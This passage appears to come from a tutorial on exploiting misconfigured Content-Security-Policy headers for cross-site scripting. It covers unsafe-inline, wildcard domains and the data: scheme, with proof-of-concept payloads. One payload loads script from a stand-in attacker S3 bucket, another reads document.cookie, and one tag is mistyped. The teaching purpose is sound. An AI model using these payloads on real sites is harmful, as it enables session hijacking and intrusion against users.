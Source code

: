 Unsafe inline makes the browser allow inline scripts.

We can use the following payloads to exploit this:

```js
<script>alert("XSS")</script> 
```
It's a simple payload that gives an alert over the window, as unsafe-inline is allowed this inline code will get executed.

**Scenario 2 - Wildcards**

Let's assume we have a target that has the following policy configured:

```css
/* Exploiting wildcards */
Content-Security-Policy: default-src 'self' script-src *.amazonaws.com
```

Obviously, the developer wants the website to be able to load scripts from an S3 bucket and uses a wildcard over the amazonaws.com domain name. In this case, inline XSS payloads aren't gonna work but now know that it trusts scripts that come from amazonaws.com, we can create our own AWS S3 bucket and host a javascript file with our malicious code. If the website doesn't have any security mechanisms like input sanitizing and filtering we can just try to use a payload like this...

Another similar scenario would be if the website trusts domains like `cdnjs.cloudflare.com`. In that case, we can load any library from that public service. You can just go to [https://cdnjs.com/](https://cdnjs.com/) and choose a library and add the URL to the script tag's src attribute. It'll be a sort of hijack situation.

```js
<script src="https://attacker-bucket.amazonaws.com/script.js"></src>
```

The browser will allow this because CSP tells the browser to trust any subdomain of amazonaws.com for loading scripts and we just have that!

**Scenario 3 - Data Scheme**

Let's assume we have a target that has the following policy configured:

```css
Content-Security-Policy: default-src 'self' script-src data:
```

This allows the use of data scheme. Inline script like `<script>alert("XSS")</script>` could be blocked by the browser but we have the allowance of using data scheme so we use a payload like the following one:

```js
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="></script>
```

This contains the base64 encoded string `alert(document.cookie)` and this will be allowed by the browser because we used data scheme and then we should be getting an alert popup with the cookies of the current session if the application is vulnerable.

---

There could be many other scenarios and one huge takeaway from all of this is don't blindly put in all sorts of XSS payloads on an application, enumerating CSP and analyze those. Look for ways you can exploit misconfiguration. Look for domains trusted by the target application which could be controlled by you (we saw that in the wildcard example). 

